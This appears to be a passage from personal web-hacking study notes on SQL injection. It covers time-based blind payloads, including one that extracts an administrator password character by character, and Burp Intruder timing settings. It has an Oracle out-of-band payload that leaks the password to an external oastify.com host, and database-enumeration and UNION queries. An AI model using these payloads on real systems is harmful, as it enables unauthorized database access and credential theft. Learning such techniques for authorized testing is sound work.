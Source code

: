- <u>Example Query</u>
```sql
' AND IF (1=1, sleep(3),'false') -- -
|| (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--
|| (SELECT CASE WHEN (SELECT SUBSTRING(password, 2, 1) = 'l' FROM users WHERE username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END)--
```


In [[Website Hacking/Tools/Burp Suite/Basics]], go to #intruder --> Resource Pool --> Create New Resource Pool --> Maximum Concurrent Requests = 1
Then, during attack, Show the Response Recieved Column & *Look for Responses with long time*.


#### Out-of-Band SQL Injection
- Vulnerability that consists of *triggering an out-of-band network connection to a system that you control*.
	- Not Common
	- Variety of protocols can be used (Ex: DNS, HTTP)

Check Out SQLi Cheatsheet For More about this!

Note: For Oracle, Put your Entire SQL Query in that part *without changing the end, i.e, FROM dual*
Ex: `' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.qd7e45lso6vyn2qmqn8zhkxdd4jw7svh.oastify.com/"> %remote;]>'),'/l') FROM dual)--`


---
### Get the name of the Current Database

| Database Type | Query                              |
| ------------- | ---------------------------------- |
| MySQL         | SELECT DATABASE()                  |
| Oracle        | SELECT sys.database_name FROM dual |
| PostgreSQL    | SELECT current_database()          |

%% Tip: if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symbol. %%
### Listing Contents of Database
Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query `INFORMATION_SCHEMA.SCHEMATA` to list the names of databases present on the server:
```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA

-- Union Query with group_concat in MySQL
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -
```

You can query `INFORMATION_SCHEMA.TABLES` to list the tables in the database:
